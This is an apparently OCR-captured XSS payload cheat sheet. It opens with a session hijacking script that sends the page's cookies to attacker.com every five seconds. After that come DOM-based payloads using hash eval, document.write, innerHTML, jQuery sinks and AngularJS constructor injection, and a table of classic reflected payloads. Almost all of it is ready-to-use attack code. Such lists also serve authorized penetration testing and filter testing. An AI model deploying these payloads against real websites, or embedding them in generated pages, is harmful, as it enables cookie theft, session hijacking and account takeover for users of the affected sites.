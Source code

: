 ### Session Hijacking
```html
<script>
  setInterval(function(){
    fetch('https://attacker.com/log?cookie='+document.cookie)
  }, 5000);
</script>
```

## DOM-based XSS Payloads
Payloads that exploit client-side DOM manipulation

### Hash-based
```javascript
<script>eval(location.hash.slice(1))</script>
#alert('XSS')
```

### Document.write
```javascript
<script>document.write('<img src=x onerror=alert("XSS")>')</script>
```

### InnerHTML
```javascript
<script>document.body.innerHTML='<img src=x onerror=alert("XSS")>'</script>
```

### Eval-based
```javascript
<script>eval('alert("XSS")')</script>
```

### jQuery Sinks
```javascript
<script>$(location.hash)</script>
#<img src=x onerror=alert('XSS')>
```

### AngularJS Injection
```javascript
{{constructor.constructor('alert("XSS")')()}}
```

## Classic XSS Payloads
| Payload | Type | Description |
|---------|------|-------------|
| `<script>alert('XSS')</script>` | Reflected | Basic XSS test |
| `<img src=x onerror=alert('XSS')>` | Reflected | Image error handler |
| `<svg onload=alert('XSS')>` | Reflected | SVG vector payload |
| `<body onload=alert('XSS')>` | Reflected | Body tag event |
